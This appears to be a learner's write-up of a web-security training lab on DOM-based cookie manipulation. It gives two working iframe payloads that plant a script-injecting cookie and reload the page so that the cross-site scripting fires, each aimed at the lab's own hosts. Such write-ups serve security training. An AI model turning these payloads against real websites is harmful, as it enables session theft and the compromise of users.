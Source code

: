 # Practitioner Lab 92: DOM-based cookie manipulation

---

This lab demonstrates DOM-based client-side cookie manipulation. To solve this lab, inject a cookie that will cause XSS on a different page and call the `print()` function. You will need to use the exploit server to direct the victim to the correct pages.

![Screenshot 2024-06-05 at 2.09.49 PM.png](Practitioner%20Lab%2092%20DOM-based%20cookie%20manipulation%20f9eaef0fc998431a9e1853d26f2bcfac/Screenshot_2024-06-05_at_2.09.49_PM.png)

![Untitled](Practitioner%20Lab%2092%20DOM-based%20cookie%20manipulation%20f9eaef0fc998431a9e1853d26f2bcfac/Untitled.png)

```
<iframe src="https://0aa700bf03aa7fa4810bc01600d3003e.web-security-academy.net/product?productId=1&'><script>print()</script>>" onload="if(!window.x)this.src='https://0aa700bf03aa7fa4810bc01600d3003e.web-security-academy.net/';window.x=1;">
```

Using the following payload The lab was solved. 

What this does is that it checks if its window.x which is not so it would load another page after setting the cookie and then it sets window.x to. 1 that way it does not keep loading.

I can also use a payload like this

```
<iframe id='cookieframe' src="https://0a5f001d0483ba0e81fed95700e70085.web-security-academy.net/product?productId=1&'><script>print()</script>"></iframe>

<script>
    setTimeout(function(){
        document.getElementById('cookieframe').src = "https://0a5f001d0483ba0e81fed95700e70085.web-security-academy.net/";
    }, 100);
</script>
```

Im sure there are some others with the resize.